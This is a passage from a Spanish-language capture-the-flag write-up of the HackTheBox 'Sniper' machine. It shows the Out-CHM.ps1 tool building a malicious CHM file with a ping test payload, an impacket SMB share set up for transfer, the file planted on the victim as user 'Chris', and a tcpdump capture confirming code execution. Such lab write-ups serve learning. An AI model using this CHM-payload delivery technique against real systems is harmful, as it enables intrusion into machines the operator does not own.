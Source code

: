 ```
[S] Sí  [O] Sí a todo  [N] No  [T] No a todo  [U] Suspender  [?] Ayuda (el valor predeterminado es "N"): O

PS C:\HTB\Sniper> Import-Module .\Out-CHM.ps1 

PS C:\HTB\Sniper> out-chm -payload "ping 10.10.14.15" -HHCPath "C:\Program Files (x86)\HTML Help Workshop\"

Compiling c:\HTB\Sniper\doc.chm


Compile time: 0 minutes, 0 seconds
2       Topics
4       Local links
4       Internet links
0       Graphics


Created c:\HTB\Sniper\doc.chm, 13,424 bytes
Compression increased file by 153 bytes.

PS C:\HTB\Sniper> gci


    Directorio: C:\HTB\Sniper


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----     14/09/2023  06:23 p. m.          13444 doc.chm
-a----     14/09/2023  06:19 p. m.          19815 Out-CHM.ps1

```
Luego nos transferimos el archivo doc.chm de nuestra máquina Windows a nuestra máquina linux usando nuestro servidor SMB.
>><p style="font-size: 16px;">NOTA: Cada vez que vayas a transeferir un archivo desde la máquina Windows al servidor SMB de tu máquina Linux, es probable que tengas que ir creando una sesión SMB con autenticación, ej. "<p style="color: gray;">impacket-smbserver share -smb2support $(pwd) -user guest -password guest</p> y desde la máquina Windows mapear una unidad de red local, ej. <p style="color: gray;">net use n: \\10.10.14.15\share /user:guest guest</p>ya después de crear la unidad de red, ahora sí puedes transferir el archivo de la sig. manera:<p style="color: gray;">copy c:\'archivo' n:"

Una vez que tengamos nuestro archivo malicioso chm en nuestra máquina de atacante, ahora debemos descargar el archivo desde la máquina Windows víctima como el usuario 'Chris':
```
PS C:\docs> Copy-Item -Path "\\10.10.14.15\share\doc.chm" -Destination .
```

```
┌─[ot3ro@parrot]─[~/HTB/Sniper/shell]
└──╼ $sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
21:07:42.736495 IP 10.10.10.151 > 10.10.14.15: ICMP echo request, id 1, seq 21, length 40
21:07:42.736528 IP 10.10.14.15 > 10.10.10.151: ICMP echo reply, id 1, seq 21, length 40
21:07:43.760309 IP 10.10.10.151 > 10.10.14.15: ICMP echo request, id 1, seq 22, length 40
21:07:43.760341 IP 10.10.14.15 > 10.10.10.151: ICMP echo reply, id 1, seq 22, length 40
21:07:44.784424 IP 10.10.10.151 > 10.10.14.15: ICMP echo request, id 1, seq 23, length 40
21:07:44.784532 IP 10.10.14.15 > 10.10.10.151: ICMP echo reply, id 1, seq 23, length 40
21:07:45.767292 IP 10.10.10.151 > 10.10.14.15: ICMP echo request, id 1, seq 24, length 40
21:07:45.767327 IP 10.10.14.15 > 10.10.10.151: ICMP echo reply, id 1, seq 24, length 40

```
>><p style="font-size: 16px;">Es importante que busques un directorio en el sistema que te permita ejecutar el archivo chm, en mi caso lo hice desde el directorio "Docs"</p>